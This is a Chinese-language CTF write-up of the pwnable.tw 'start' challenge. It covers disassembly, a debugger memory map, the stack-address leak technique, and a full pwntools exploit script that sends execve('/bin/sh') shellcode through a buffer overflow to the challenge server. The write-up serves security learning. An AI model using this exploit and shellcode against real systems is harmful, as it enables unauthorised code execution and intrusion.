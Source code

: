 # start

## ida

```assembly
push    esp
push    offset _exit
xor     eax, eax
xor     ebx, ebx
xor     ecx, ecx
xor     edx, edx
push    3A465443h
push    20656874h
push    20747261h
push    74732073h
push    2774654Ch
mov     ecx, esp        ; addr
mov     dl, 14h         ; len
mov     bl, 1           ; fd
mov     al, 4
int     80h             ; LINUX - sys_write
xor     ebx, ebx
mov     dl, 3Ch ; '<'
mov     al, 3
int     80h             ; LINUX - sys_read
add     esp, 14h
retn
pop     esp
xor     eax, eax
inc     eax
int     80h             ; LINUX - sys_exit
```

调试：

```shell
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
0x8048000  0x8049000 r-xp     1000 0      /home/niebelungen/Desktop/pwnable.tw/start/start
0xf7ff8000 0xf7ffc000 r--p     4000 0      [vvar]
0xf7ffc000 0xf7ffe000 r-xp     2000 0      [vdso]
0xfffdd000 0xffffe000 rwxp    21000 0      [stack]
```

没有足够的gadget让我们利用，正好stack有rwx权限，所以我们想办法在栈上写shellcode，再ret到那里。

首先我们要想办法leak栈的地址。

在`add esp,14h`后，`esp`指向了返回地址，下一条指令就是`pop esp`,而栈上保存的就是栈的地址。通过`ret`到`mov ecx,esp`调用`sys_write`可以leak栈地址。由此，再加上一个`offset`就可以到shellcode。

注意要写入的shellcode必须要短，0x3c-0x14-0x4=0x24。

## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
leak = lambda name,addr: log.success('{:#x}'.format(name,addr))
context.log_level="DEBUG"
#context.arch="amd64"

local=0
binary='./start'
#gdb.attach(p)
if local:
	p=process(binary)
else:
	p=remote('chall.pwnable.tw',10000)

elf = ELF(binary,checksec=False)
#gdb.attach(p)

shellcode='\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68'
shellcode+='\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb0\x0b\xcd\x80'#0x17
payload='a'*0x14+p32(0x8048087)
p.send(payload)
p.recvuntil("Let's start the CTF:")
stack=u32(p.recv(4))
print hex(stack)

payload='a'*0x14+p32(stack+20)+shellcode
p.send(payload)
p.interactive()
```

pwnable.tw真的不错。这个题考察了汇编基础、shellcode的编写。这里记录一个shellcode的网站：[shellcode](http://shell-storm.org/shellcode/)

